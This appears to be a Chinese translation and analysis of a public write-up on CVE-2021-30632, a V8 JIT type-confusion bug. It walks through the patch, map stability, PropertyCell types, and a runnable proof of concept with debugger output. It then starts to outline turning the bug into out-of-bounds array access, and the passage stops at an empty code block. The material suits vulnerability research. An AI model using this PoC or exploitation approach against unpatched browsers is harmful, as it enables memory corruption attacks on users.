

## CVE-2021-30632

## 前言

文章主要是翻译：https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_30632/

加上了自己的一点理解，本人水平有限，难免出现错误，原文作者真的写的非常的详细，推荐阅读原文

## 环境搭建

Ubuntu20.04LTS

```cpp
git reset --hard 632e6e7
gclient sync
tools/dev/v8gen.py x64.debug
ninja -C out.gn/x64.debug d8
```

## 漏洞相关信息

commit：https://source.chromium.org/chromium/_/chromium/v8/v8.git/+/6391d7a58d0c58cd5d096d22453b954b3ecc6fec

这个是一个在野的漏洞：https://chromereleases.googleblog.com/2021/09/stable-channel-update-for-desktop.html

diff：

```cpp
diff --git a/src/compiler/js-native-context-specialization.cc b/src/compiler/js-native-context-specialization.cc
index e245d23..c26b0db 100644
--- a/src/compiler/js-native-context-specialization.cc
+++ b/src/compiler/js-native-context-specialization.cc
@@ -804,6 +804,12 @@
       return NoChange();
     } else if (property_cell_type == PropertyCellType::kUndefined) {
       return NoChange();
+    } else if (property_cell_type == PropertyCellType::kConstantType) {
+      // We rely on stability further below.
+      if (property_cell_value.IsHeapObject() &&
+          !property_cell_value.AsHeapObject().map().is_stable()) {
+        return NoChange();
+      }
     }
   } else if (access_mode == AccessMode::kHas) {
     DCHECK_EQ(receiver, lookup_start_object);
@@ -922,17 +928,7 @@
         if (property_cell_value.IsHeapObject()) {
           MapRef property_cell_value_map =
               property_cell_value.AsHeapObject().map();
-          if (property_cell_value_map.is_stable()) {
-            dependencies()->DependOnStableMap(property_cell_value_map);
-          } else {
-            // The value's map is already unstable. If this store were to go
-            // through the C++ runtime, it would transition the PropertyCell to
-            // kMutable. We don't want to change the cell type from generated
-            // code (to simplify concurrent heap access), however, so we keep
-            // it as kConstantType and do the store anyways (if the new value's
-            // map matches). This is safe because it merely prolongs the limbo
-            // state that we are in already.
-          }
+          dependencies()->DependOnStableMap(property_cell_value_map);
 
           // Check that the {value} is a HeapObject.
           value = effect = graph()->NewNode(simplified()->CheckHeapObject(),
```

## 漏洞分析

### Property access in v8

该漏洞是发生在JIT对全局变量的属性的访问上，在v8中，对属性进行访问是一项非常复杂的事情以至于导致了许多的安全漏洞，如[CVE-2021-30551](https://bugs.chromium.org/p/chromium/issues/detail?id=1216437)，[CVE-2021-30517](https://bugs.chromium.org/p/chromium/issues/detail?id=1203122)。负责属性访问的代码大致在三个不同的层面上实现：

- 像[`SetProperty`](https://source.chromium.org/chromium/chromium/src/+/ac670e447242e40ea957dcd65336becb0a9d8e4d:v8/src/objects/objects.h;l=484) 和 [`GetProperty`](https://source.chromium.org/chromium/chromium/src/+/ac670e447242e40ea957dcd65336becb0a9d8e4d:v8/src/objects/objects.h;l=475) （源码位于 [`object.cc`](https://source.chromium.org/chromium/chromium/src/+/ac670e447242e40ea957dcd65336becb0a9d8e4d:v8/src/objects/objects.cc) ）这种是最通常的方法
- 通过 [inline cache](https://mathiasbynens.be/notes/shapes-ics) 来进行访问，相关源码位于 [`src/ic`](https://source.chromium.org/chromium/chromium/src/+/ac670e447242e40ea957dcd65336becb0a9d8e4d:v8/src/ic/)
- Turbofan [inlining](https://source.chromium.org/chromium/chromium/src/+/ac670e447242e40ea957dcd65336becb0a9d8e4d:v8/src/compiler/pipeline.cc;l=1367) 阶段的`JSNativeContextSpecialization`，主要是通过[`ReduceNamedAccess`](https://source.chromium.org/chromium/chromium/src/+/ac670e447242e40ea957dcd65336becb0a9d8e4d:v8/src/compiler/js-native-context-specialization.cc;l=1087)方法实现的

这些代码代表了在v8中对属性访问三个不同层次的优化，由于属性访问是一个JavaScript很常见的操作，所以v8对它进行了大量的优化。为了实现这些优化，每个属性都会有很多metadata与之相关联（这些metadata由于JIT代码对属性做出假设）。对属性的修改不仅仅涉及到改变该属性的值，也涉及到这些相关联的metadata的修改。因此为了保证优化的代码不会变得无效，每一层改变属性的metadata的方式必须是一致的。从更高的层次上来说，这个漏洞是因为jit的代码错误的设置了属性的metadata，导致其它jit代码的假设无效。

以下是与这个bug相关的metadata

### Object Map, map stability, and map transitions

Object Map（v8中叫这个）是JavaScript引擎表示一个对象很重要的基本概念，它代表了对象的内存布局且在属性访问的优化方面至关重要。关于Object Map的好文章有Mathias Bynens的 “[JavaScript engine fundamentals: Shapes and Inline Caches](https://mathiasbynens.be/notes/shapes-ics#object-model)”，还有 Camillo Bruni的 “[Fast properties in v8](https://v8.dev/blog/fast-properties)”，这里就不多介绍了。从安全角度来看，map之所以至关重要，是因为：

1. map里存有该对象内存布局的信息，并且这些信息被用于提高属性访问的速度
2. JIT生成的代码经常依赖于对对象map的假设，如果这些假设变得无效了，那么jit代码很有可能会在错误的位置访问内存，或者以错误的type来访问属性（类型混淆）

拥有相同属性布局和类型的对象会共享同一个map，map包含了一个属性描述符数组([DescriptorArrays](https://v8.dev/blog/fast-properties#hiddenclasses-and-descriptorarrays))，这个数组包含了属性的各种信息，当然也包括了该属性的值和类型。如以下例子所示，由于它们的属性布局相同（都有一个`a`属性，并且属性的值的类型为`SMI`）， 所以它们两个对象共享同一个map。

```javascript
o1 = {a : 1};
o2 = {a : 10000};  //<------ same map as o1, MapA
```

使用`%DebugPrint(o1)`来打印出o1对象的调试信息，可以看见它的map是一个`stable_map`：

```cpp
d8> %DebugPrint(o1);
DebugPrint: 0x5580810966d: [JS_OBJECT_TYPE]
 - map: 0x0558082c7961 <Map(HOLEY_ELEMENTS)> [FastProperties]
...
0x558082c7961: [Map]
 - type: JS_OBJECT_TYPE
 - instance size: 16
 - inobject properties: 1
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: 1
 - stable_map		//<-------- map is stable
...
```

如果添加了一个新的属性，那么就会v8会创建一个新的map来表示该对象的新布局

```javascript
o2.b = 1; //<-------- o2 now has new map, MapB
```

这个新的map（MapB）通过一个transitions来和旧map（MapA）相关联。现在使用`%DebugPrint(o1)`来打印o1，看一看见o1的map多了一个transitions指向MapB：

```cpp
d8> %DebugPrint(o1);
DebugPrint: 0x5580810966d: [JS_OBJECT_TYPE]
 - map: 0x0558082c7961 <Map(HOLEY_ELEMENTS)> [FastProperties]
...
0x558082c7961: [Map]
 - type: JS_OBJECT_TYPE
 - instance size: 16
 - inobject properties: 1
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: 1
 - back pointer: 0x0558082c7939 <Map(HOLEY_ELEMENTS)>
 - prototype_validity cell: 0x055808202405 <Cell value= 1>
 - instance descriptors #1: 0x05580810b165 <DescriptorArray[2]>
 - transitions #1: 0x0558082c7989 <Map(HOLEY_ELEMENTS)>	//<----- transition is added.
     0x5580808df25: [String] in ReadOnlySpace: #b: (transition to (const data field, attrs: [WEC]) @ Any) -> 0x0558082c7989 <Map(HOLEY_ELEMENTS)>
...
```

然而，o1的map就不再是一个`stable_map`了。有很多种给一个map添加transitions的方法，但是无论哪一种方法，在给`stable_map`添加了transitions之后，他就不再是`stable`了，而是`unstable`的。但是如果我们现在给o1也添加一个属性b，且类型也为SMI，这样o1的map也会变成MapB：

```cpp
d8> o1.b = 2;
2
d8> %DebugPrint(o1);
DebugPrint: 0x5580810966d: [JS_OBJECT_TYPE]
 - map: 0x0558082c7989 <Map(HOLEY_ELEMENTS)> [FastProperties]
...
0x558082c7989: [Map]
 - type: JS_OBJECT_TYPE
 - instance size: 16
 - inobject properties: 1
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 2
 - enum length: invalid
 - stable_map
...
```

且o1的map又变成了stable_map。当给o1对象添加属性b的时候，v8首先会检查是否能transition 到合适的且已经存在的map。如果有的话，v8只是简单的将其map变更为那个map而不是创建一个新的。上面的例子中，由于MapB已经存在了，所以transition将会进行（o1的map从mapA transition成了 mapB），这个过程叫做[map transition](https://mathiasbynens.be/notes/shapes-ics#transitions)。

可以看到map的稳定性和transition与map如何变换相关（也有map deprecation的情况，但是那更复杂也与该漏洞无光）。当创建一个全局变量或者定义一个对象属性的时候：

```javascript
var x = {a : 1};
obj.x = {a : 1};
```

有许多种改变对象map的方法，首先，一个很明显的方法就是给该对象或者属性重新赋值：

```javascript
x = {b : 1};
obj.x = {b : 1};
```

x和obj.x的map都变了，但是这种变化与x和obj.x原来的map并没有什么关系，所以x和obj.x原来的map仍然是stable的。当然不通过重新赋值也是能改变o和obj.x的map的，就是我们上面用到的，给它们添加新的属性：

```javascript
x.b = 1;
obj.x.b = 1;
```

在这种情况下，我们没有对x和obj.x重新赋值，也改变了它们的map。当使用这种办法来改变对象的map会有以下两种情况：

1. x和obj.x的新map（MapB）不存在，所以v8需要创建一个新的MapB。在这种情况下，原来的map（MapA）在MapB创建前是stable的，但是在MapA添加了一个transitions到MapB的时候，MapA就变成unstable了。
2. x和obj.x的新map（MapB）已经存在，使用x和obj.x的map只是简单的transition到MapB。在这种情况下，MapA本来就是unstable的

所以，当一个全局变量或者一个对象属性的map变化时，可能发生以下两种情况之一：

1. 该变量或者属性是被重新赋值的，那原来的MapA还是stable的
2. 变量或者属性的map是通过添加新的属性来改变的，这种情况下原来MapA的状态变成了unstable的

很显然jit代码对一个对象的map进行假设时，它需要确保该对象的map不会改变，通常代码会检查以下内容：

1. 这个对象是对一个全局变量的访问还是对一个属性的访问？
2. 这个变量/属性能否以一种可能改变其map的方式被重新赋值？
3. 如果问题2的答案是不能并且该map是stable的，那么jit代码需要在map变得unstable的时候进行deoptimized，否者map可能会在没有重新赋值的情况下被改变。
4. 如果问题2的答案是可以或者该map的状态已经是unstable了，那么要么放弃优化代码，要么插入checkmap节点以确保map没有变化

对于问题2，[`GlobalPropertyDependency`](https://source.chromium.org/chromium/chromium/src/+/ac670e447242e40ea957dcd65336becb0a9d8e4d:v8/src/compiler/compilation-dependencies.cc;l=587) 函数通常被用于确保对全局变量的访问和优化代码之间的关系。当与jit代码相关的全局变量通过普通路径（也就是SetProperty）被重新赋值的时候，该函数会把jit代码标记为无效并进行deoptimization 。而通过inline cache和jit路径来进行重新赋值是不会触发deoptimization，因为它们会有其它的check来保证该属性的map和与其相关的metadata不会改变。

[`DependOnStableMap`](https://source.chromium.org/chromium/chromium/src/+/ac670e447242e40ea957dcd65336becb0a9d8e4d:v8/src/compiler/compilation-dependencies.cc;l=756)被用来确保与jit代码相关联的map的状态时stable的，如果相关的map的状态变成了unstable，那么jit代码就会被deoptimization 

在jit compiler的代码中，有很多地方都做了一个假设：一个状态为stable的map，在不使用通常的路径（SetProperty）对变量或属性进行重新赋值的情况下，该map是无法被改变的。（译者注：也就是说要改变一个全局变量的map，一定会触发与他相关的那些已经被jit优化过的代码的deoptimization）。

### Global property access

前面已经介绍了map稳定性的相关内容，现在来看看patch：



首先需要注意的是，该patch是对全局属性的storing操作相关。在JavaScript中，全局属性是[全局对象](https://developer.mozilla.org/en-US/docs/Glossary/Global_object)的一个属性，这其中也包括了全局变量。每当定义了一个全局变量，就会在全局变量中创建一个带有该变量名称的属性：

```javascript
var x = {a : 1}; //<---------- store global property x

// 
d8> var x = {a : 1};
undefined
d8> this.x === x;
true
d8> Object.is(this.x,x);
true
```

与该patch相关的结构有`property_cell_type`和`property_cell_value`，这些是与`PropertyCell `相关的metadata，与被存储的属性相关联。`property_cell_value`代表了该属性真正的值，而[`property_cell_type`](https://source.chromium.org/chromium/chromium/src/+/ac670e447242e40ea957dcd65336becb0a9d8e4d:v8/src/objects/property-details.h;l=240;drc=7a0b88f6d5c015fd3c280b58c7a99d8e1dca28ac;bpv=0;bpt=1)代表了一个`PropertyCell `的各种状态：

```cpp
// src/objects/property-details.h
// A PropertyCell's property details contains a cell type that is meaningful if
// the cell is still valid (does not hold the hole).
enum class PropertyCellType {
  kMutable,       // Cell will no longer be tracked as constant.
  kUndefined,     // The PREMONOMORPHIC of property cells.
  kConstant,      // Cell has been assigned only once.
  kConstantType,  // Cell has been assigned only one type.
  // Value for dictionaries not holding cells, must be 0:
  kNoCell = kMutable,
};
```

当一个属性刚刚创建并且被分配了一个值的时候，它的状态为`kConstant`。这个状态说明该属性当前只被一样的值赋值，而只要后续的赋值还是一样的值，该状态就不会变化：

```cpp
// src/objects/objects.cc
PropertyCellType PropertyCell::UpdatedType(Isolate* isolate,
                                           Handle<PropertyCell> cell,
                                           Handle<Object> value,
                                           PropertyDetails details) {
  switch (details.cell_type()) {
    ..
    case PropertyCellType::kConstant:
      if (*value == cell->value()) return PropertyCellType::kConstant;
    ...
  }
}
```

如果我们给属性重新赋值了一个不一样的值，但是该值的map和属性原来的值的map是一样的，那么`PropertyCell`的状态又会就会变成`kConstantType`：

```cpp
PropertyCellType PropertyCell::UpdatedType(Isolate* isolate,
                                           Handle<PropertyCell> cell,
                                           Handle<Object> value,
                                           PropertyDetails details) {
  switch (details.cell_type()) {
    ...
    case PropertyCellType::kConstant:
      if (*value == cell->value()) return PropertyCellType::kConstant;
      V8_FALLTHROUGH;
    case PropertyCellType::kConstantType:
      if (RemainsConstantType(cell, value)) {
        return PropertyCellType::kConstantType;
      }
    ...
}
```

`RemainsConstantType`函数会检查新值的map和旧值的map是一致的，并且都要是stable的：

```cpp
static bool RemainsConstantType(Handle<PropertyCell> cell,
                                Handle<Object> value) {
  ...
  } else if (cell->value().IsHeapObject() && value->IsHeapObject()) {
    return HeapObject::cast(cell->value()).map() ==
               HeapObject::cast(*value).map() &&
           HeapObject::cast(*value).map().is_stable();
  }
  return false;
}
```

从该函数可以看出，`kConstantType`的语义似乎是cell value的map不变并且该map是stable的，但是这里存在了一点疏漏。改变PropertyCell value的map而不改变它的`PropertyCellType`是很容易的，因为`PropertyCellType`只有在该属性的值被重新赋值的时候才会改变。所以以下的代码展示了如何改变PropertyCell value的map而又保持`PropertyCellType`为`ConstantType`：

```javascript
var x = {a : 1};  //<------ property_cell.value(): {a : 1}, MapA, property_cell_type: Constant
x = {a :2};       //<------ property_cell.value(): {a : 2}, MapA, property_cell_type: ConstantType
x.b = 2;          //<------ property_cell.value(): {a : 1, b: 1}, MapB, property_cell_type: ConstantType
```

变量x并没有被重新赋值，所以它的PropertyCellType依然为`ConstantType`。kConstantType这个名字如其所言：它保留了类型（即Javascript对象、Javascript数组等；没有办法在不重新分配的情况下改变其类型），但是它并没有对变量的map提供任何的保证。

### The bug

有了这个背景，现在来看看该bug。在没打patch前，在jit代码中，当给一个cell type为kConstantType 的全局属性重新赋值时，即使该全局属性的map时unstable的，我们也可以赋值一个新的值给该全局属性：

```cpp
      DCHECK_EQ(AccessMode::kStore, access_mode);
      // ................................................ //
      case PropertyCellType::kConstantType: {
        // Record a code dependency on the cell, and just deoptimize if the new
        // value's type doesn't match the type of the previous value in the
        // cell.
        dependencies()->DependOnGlobalProperty(property_cell);         //<------------ 1.
        Type property_cell_value_type;
        MachineRepresentation representation = MachineRepresentation::kTagged;
        if (property_cell_value.IsHeapObject()) {
          MapRef property_cell_value_map =
              property_cell_value.AsHeapObject().map();
          if (property_cell_value_map.is_stable()) {
            dependencies()->DependOnStableMap(property_cell_value_map);
          } else {
            // The value's map is already unstable. If this store were to go
            // through the C++ runtime, it would transition the PropertyCell to
            // kMutable. We don't want to change the cell type from generated
            // code (to simplify concurrent heap access), however, so we keep
            // it as kConstantType and do the store anyways (if the new value's
            // map matches). This is safe because it merely prolongs the limbo
            // state that we are in already.
          }
          // Check that the {value} is a HeapObject.
          value = effect = graph()->NewNode(simplified()->CheckHeapObject(),
                                            value, effect, control);
          // Check {value} map against the {property_cell_value} map.
          effect = graph()->NewNode(                                //<------------ 2.
              simplified()->CheckMaps(
                  CheckMapsFlag::kNone,
                  ZoneHandleSet<Map>(property_cell_value_map.object())),
              value, effect, control);
```

然而，jit代码会加入check（[1]处的`DependOnGlobalProperty`和[2]处的`CheckMaps`），这意味着仍然不能改变`PropertyCell`的map：

```javascript
var x = {a : 1};

function foo(o) {
  x = o;
  ... //code that may rely on x having MapA
}
```

所以即使在foo函数被jit优化的时候x的map是unstable的，不触发deoptimization是不可能改变其map的，因为`DependOnGlobalProperty`会禁止对x的重新赋值

（如果新值的map和x不一致就会触发deoptimization），而checkMap则保证o的map和x的map是一致的，如果不一致也会触发deoptimization。而且在编译的时候，如果x的map是unstbale的，就不会进入以下的代码，因为只有在x的map为stable的时候，jit代码才会对x的map做出假设：

```cpp
// Reduction JSNativeContextSpecialization::ReduceGlobalAccess function
// src/compiler/js-native-context-specialization.cc
       // Load from constant type cell can benefit from type feedback.
        MaybeHandle<Map> map;
        Type property_cell_value_type = Type::NonInternal();
        MachineRepresentation representation = MachineRepresentation::kTagged;
        if (property_details.cell_type() == PropertyCellType::kConstantType) {
          ...
          } else {
            MapRef property_cell_value_map =
                property_cell_value.AsHeapObject().map();
            property_cell_value_type = Type::For(property_cell_value_map);
            representation = MachineRepresentation::kTaggedPointer;
            // We can only use the property cell value map for map check
            // elimination if it's stable, i.e. the HeapObject wasn't
            // mutated without the cell state being updated.
            if (property_cell_value_map.is_stable()) {
              dependencies()->DependOnStableMap(property_cell_value_map);
              map = property_cell_value_map.object();                    //<------ map only has value if it is stable
            }
          }
        }
        value = effect = graph()->NewNode(
            simplified()->LoadField(ForPropertyCellValue(
                representation, property_cell_value_type, map, name)),  //<-------- map use to provide type information for the loaded field
            jsgraph()->Constant(property_cell), effect, control);
      }
```

所以当foo函数被优化时x的map时unstable的，后面的优化代码在也不会对x的map做出任何的假设了：

```javascript
var x = {a : 1};

function foo(o) {
  x = o;
  ... //Code does not make any assumption on map of x after all
  var z = x.a;
}
```

这或多或少的解释了为什么开发人员不觉得这是个security issue。

### Breaking JIT with JIT

让我们从一些更高层次的角度来思考这个问题，在打patch前，对于jit代码，我们可以将一个对象赋值给一个map为unstable的`PropertyCell`，并且同时保持其`PropertyCellType`仍然是`kConstantType`（前提是该对象的map要和旧值的map一致）。在打了patch之后，我们就不被允许这么做了。

```javascript
var x = {a : 1};  //<---- x has MapA
var o = {a : 2};  //<---- o has MapA
function foo(y) {
  x = y;
}
... //MapA becomes unstable, foo gets optimized
foo(o);   //value of x change to o, map remains the same
```

只要o的map为MapA，在被优化过后的函数foo中，所有的check都会被pass，而且x会被重新赋值为o（也就是map又变回了MapA）。现在，将这一点与我们在前面看到的处理kConstantType 的行为结合在一起：

```javascript
var x = {a : 1};  //<---- x has MapA
var o = {a : 2};  //<---- o has MapA
var z = {a : 3};  //<---- z has MapA
function foo(y) {
  x = y;
}
z.b = 1;  //MapA becomes unstable
...//optimize foo
x.b = 1; //value of x is now {a : 1, b: 1} and has MapB, still ConstantType, MapB stable
foo(o);   //value of x change to o, map changes back to MapA, still ConstantType
```

最后两行至关重要，有了被优化的foo函数，就可以做到将x的map从MapB变回MapA，既不用通过重新赋值的路径，也不会使MapB变得不稳定。

而在 Object Map, map stability, and map transitions 一节的讨论中，我们知道了有很多jit的代码做了一个假设：如果要改变一个变量的map，要么通过重新赋值，要么就会使得该变量的map变得unstbale。所以如果我们使用优化后的foo来将x的map从MapB变回MapA，那么jit代码做出的这些假设都将变得无效，这很有可能导致类型混淆。 事实上，这可以通过优化一个全局属性的load操作来实现：

```javascript
function bar() {
  var z = x;
  ...//Assumes MapB for z
}

var x = {a : 1};  //<---- x has MapA
var o = {a : 2};  //<---- o has MapA
var z = {a : 3};  //<---- z has MapA
function foo(y) {
  x = y;
}
z.b = 1;  //MapA becomes unstable
...//optimize foo
x.b = 1; //value of x is now {a : 1, b: 1} and has MapB, still ConstantType, MapB stable

...//optimize bar, which now assumes x has MapB with ConstantType
foo(o);   //value of x change to o, map changes back to MapA, still ConstantType
bar();    //Still assumes x has MapB => type confusion
```

在`x.b = 1`之后，优化上面的bar函数，该函数会根据`property_cell_value`的map为MapB进行优化，而且由于MapB的状态是stable的，在bar函数`var z = x`之后的代码会假设z的map为MapB。如果我们用foo来使得x的map从MapB变回MapA，那么在jit优化过的bar函数中就会触发类型混淆


## Debug

这个section是原文没有的，为了能理解前面作者的话，还是需要调试一番

首先是前面提到的一些对象：

### 一些对象

#### PropertyCell

这个应该是内部用来记录一个全局变量的一些具体信息：

```cpp
// src/objects/property-cell.tq
extern class PropertyCell extends HeapObject {
  name: AnyName;
  property_details_raw: Smi;
  value: Object;
  dependent_code: DependentCode;
}
```

#### PropertyDetails

是一个uint32_t的bitfield

#### PropertyCellType

```cpp
// A PropertyCell's property details contains a cell type that is meaningful if
// the cell is still valid (does not hold the hole).
enum class PropertyCellType {
  kMutable,       // Cell will no longer be tracked as constant.
  kUndefined,     // The PREMONOMORPHIC of property cells.
  kConstant,      // Cell has been assigned only once.
  kConstantType,  // Cell has been assigned only one type.
  // Value for dictionaries not holding cells, must be 0:
  kNoCell = kMutable,
};
```

#### dependent code

这个表示与该对象（好像一般都是全局变量才有）相关的jit函数，如这个：

```javascript
// d8 debug
var a = {x:11};

function foo(){
  var z = a.x;
  return z + 1;
}

for(var i = 0;i < 12000;i++)
    foo();

%DebugPrint(a);
%SystemBreak();
```

foo函数访问了全局变量a，用%DebugPrint(a)查看a的depentent code：

```cpp
DebugPrint: 0x1b60081096ed: [JS_OBJECT_TYPE]
 - map: 0x1b60082c7961 <Map(HOLEY_ELEMENTS)> [FastProperties]
...
0x1b60082c7961: [Map]
 - type: JS_OBJECT_TYPE
 - instance size: 16
 - inobject properties: 1
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
...
 - dependent code: 0x1b60082935ad <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0

pwndbg> job 0x1b60082935ad
0x1b60082935ad: [WeakFixedArray] in OldSpace
 - map: 0x1b6008002191 <Map>
 - length: 3
           0: 0x1b60082935c1 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
           1: 33
           2: [weak] 0x1b60008c4001 <Code TURBOFAN>
```

depentent code 偏移为2的code对象和 --print-opt-code打印出来的code是一致的

这个应该就是我们在对全局变量进行访问时，如果我们改变了全局变量的property-cell，就会检查这个dependent code把相关的优化代码deopt

### 代码调试

用于测试的代码：

```javascript
function store(y) {
  x = y;
}

function load() {
  return x.b;
}

var x = {a : 1};				// MapA
var x1 = {a : 2};				// MapA
var x2 = {a : 3};				// MapA
var x3 = {a : 4};				// MapA

store(x1);
%PrepareFunctionForOptimization(store);
store(x2);
x1.b = 1;						// MapB，MapA is unstable now
%OptimizeFunctionOnNextCall(store);
store(x2);						
x.b = 1;						// x become MapB, stable
%PrepareFunctionForOptimization(load);
load();
%OptimizeFunctionOnNextCall(load);
load();
store(x3);				// 用jit后的函数来将变量x的map从MapB变回MapA
%DebugPrint(load());		// load还是假设x的map为MapB
```

运行是加上--print-opt-code，查看store和load的jit code：

```cpp
// store function jit code
...
0x4cb008c4068    28  55             push rbp
0x4cb008c4069    29  4889e5         REX.W movq rbp,rsp
...
0x4cb008c4081    41  488b5518       REX.W movq rdx,[rbp+0x18]	// 检查传入的参数
0x4cb008c4085    45  f6c201         testb rdx,0x1
0x4cb008c4088    48  0f84a5000000   jz 0x4cb008c4133  <+0xf3>
0x4cb008c408e    4e  b961792c08     movl rcx,0x82c7961       ;; (compressed) object: 0x04cb082c7961 <Map(HOLEY_ELEMENTS)>
0x4cb008c4093    53  394aff         cmpl [rdx-0x1],rcx
0x4cb008c4096    56  0f859e000000   jnz 0x4cb008c413a  <+0xfa>
0x4cb008c409c    5c  48b971352908cb040000 REX.W movq rcx,0x4cb08293571    ;; object: 0x04cb08293571 <PropertyCell name=0x04cb08293189 <String[1]: #x> value=0x04cb08109ef9 <Object map = 0x4cb082c7961>>
0x4cb008c40a6    66  89510b         movl [rcx+0xb],rdx	// 更新变量x的PropertyCell
0x4cb008c40a9    69  48c7c70000fcff REX.W movq rdi,0xfffc0000
0x4cb008c40b0    70  4823f9         REX.W andq rdi,rcx
0x4cb008c40b3    73  f6470804       testb [rdi+0x8],0x4
0x4cb008c40b7    77  0f854b000000   jnz 0x4cb008c4108  <+0xc8>
0x4cb008c40bd    7d  498b85a0000000 REX.W movq rax,[r13+0xa0] (root (undefined_value))
0x4cb008c40c4    84  488b4de8       REX.W movq rcx,[rbp-0x18]
0x4cb008c40c8    88  488be5         REX.W movq rsp,rbp
0x4cb008c40cb    8b  5d             pop rbp
0x4cb008c40cc    8c  4883f901       REX.W cmpq rcx,0x1
0x4cb008c40d0    90  7f03           jg 0x4cb008c40d5  <+0x95>
0x4cb008c40d2    92  c21000         ret 0x10
0x4cb008c40d5    95  415a           pop r10
0x4cb008c40d7    97  488d64cc08     REX.W leaq rsp,[rsp+rcx*8+0x8]
0x4cb008c40dc    9c  4152           push r10
0x4cb008c40de    9e  c3             retl
...
```

load函数的jit code：

```cpp
...
0x4cb008c41c8    28  55             push rbp
0x4cb008c41c9    29  4889e5         REX.W movq rbp,rsp
...
0x4cb008c41dd    3d  48ba71352908cb040000 REX.W movq rdx,0x4cb08293571    ;; object: 0x04cb08293571 <PropertyCell name=0x04cb08293189 <String[1]: #x> value=0x04cb08109ef9 <Object map = 0x4cb082c7989>>
0x4cb008c41e7    47  8b520b         movl rdx,[rdx+0xb]	// 取得x
0x4cb008c41ea    4a  4903d6         REX.W addq rdx,r14
0x4cb008c41ed    4d  8b5203         movl rdx,[rdx+0x3]	// 取得x.properties
0x4cb008c41f0    50  4903d6         REX.W addq rdx,r14
0x4cb008c41f3    53  8b4207         movl rax,[rdx+0x7]  // 直接load  x.b
0x4cb008c41f6    56  488b4de8       REX.W movq rcx,[rbp-0x18]
0x4cb008c41fa    5a  488be5         REX.W movq rsp,rbp
0x4cb008c41fd    5d  5d             pop rbp
0x4cb008c41fe    5e  4883f900       REX.W cmpq rcx,0x0
0x4cb008c4202    62  7f03           jg 0x4cb008c4207  <+0x67>
0x4cb008c4204    64  c20800         ret 0x8
...
```

load函数一开始是有checkmap节点的，但是该节点在load elimination阶段被消除

而在bug修复的版本，store函数直接用的就是runtime函数了：

```cpp
// in bug fix version 
// store func
...
0x37b1009c4068    28  55                   push rbp
0x37b1009c4069    29  4889e5               REX.W movq rbp,rsp
0x37b1009c406c    2c  56                   push rsi
0x37b1009c406d    2d  57                   push rdi
0x37b1009c406e    2e  50                   push rax
0x37b1009c406f    2f  4883ec08             REX.W subq rsp,0x8
0x37b1009c4073    33  488975e0             REX.W movq [rbp-0x20],rsi
0x37b1009c4077    37  493b6520             REX.W cmpq rsp,[r13+0x20] (external value (StackGuard::address_of_jslimit()))
0x37b1009c407b    3b  0f863a000000         jna 0x37b1009c40bb  <+0x7b>
0x37b1009c4081    41  48b945322908b1370000 REX.W movq rcx,0x37b108293245    ;; object: 0x37b108293245 <String[1]: #x>
0x37b1009c408b    4b  33ff                 xorl rdi,rdi
0x37b1009c408d    4d  488b4518             REX.W movq rax,[rbp+0x18]
0x37b1009c4091    51  488b75e0             REX.W movq rsi,[rbp-0x20]
0x37b1009c4095    55  e8a6df86ff           call 0x37b100232040  (StoreGlobalICTrampoline)    ;; runtime entry  
```

且加上--trace-deopt，可以看见在store函数执行后，load函数就会被deopt：

```cpp
./d8 ~/v8_build/v8_src/v8/out.gn/x64.debug/poc.js  --allow-natives-syntax --trace-deopt   
[marking dependent code 0x1df5009c4141 (0x1df508293395 <SharedFunctionInfo load>) (opt id 1) for deoptimization, reason: property-cell-changed]
```

## Exploiting the bug

前面讲述了关于该bug的概述，现在来看看如何利用它，这里还有几个细节需要整理一下。首先，因为一旦对一个unstable的map进行重新赋值的时候，其`PropertyCellType`会马上从`kConstantType `变成`kMutable `，所以需要对优化代码进行计数（也就是执行到多少次，turbofan会生成该函数的jit code)，使得x的map在foo函数被优化前一刻变得unstable，而不是在foo函数被优化后，否则x的`PropertyCellType`会变成`kMutable`。所以我们需要对foo做如下的操作：

```javascript
for (let i = 0; i < N + 1; i++) {
  if (i == N) z.b = 1; //<-------- Makes MapA unstable
  foo(o);
}
```

上述代码的N就是foo函数被优化要执行的次数。通过一些记录和调试（用二分法和--print-opt-code，但是在release版本中确认有点麻烦），这并不难发现，而且N的值是确定的，在多次运行和不同版本的v8中是稳定的。

接下来要注意的是，对象{a : 1}和{a : 1, b : 2}之间的类型混淆并不是特别有用，因为在bar中最多只能访问x的属性a或b（因为bar函数假设x有MapB）。由于a两个map中的偏移是一样的，只有对b的访问会给我们一个越界的访问，虽然已经可以用于利用了，但还是不那么有效。

因此，我们需要对JavaScript数组类型进行类型混淆。因为JavaScript数组对不同类型（Element kind）的元素有不同大小的存储大小，`SMI`数组（元素大小为4）和`Double`数组（元素大小为8）之间的混淆将导致JavaScript数组的越界读写，而数组的越界读写将很容易用于利用。

关于JavaScript数组的一个注意事项是，由于数组的transitions在优化中经常发生，当数组在v8中被创建时，其已经根据其元素的类型（ [`elements kind lattice`](https://v8.dev/blog/elements-kinds#the-elements-kind-lattice)）被插入了一个transitions，这使得它们的map变成了unstable的状态，并且将它们存储到全局属性中会导致`PropertyCellType`立即就变成了`kMutable`。

```cpp
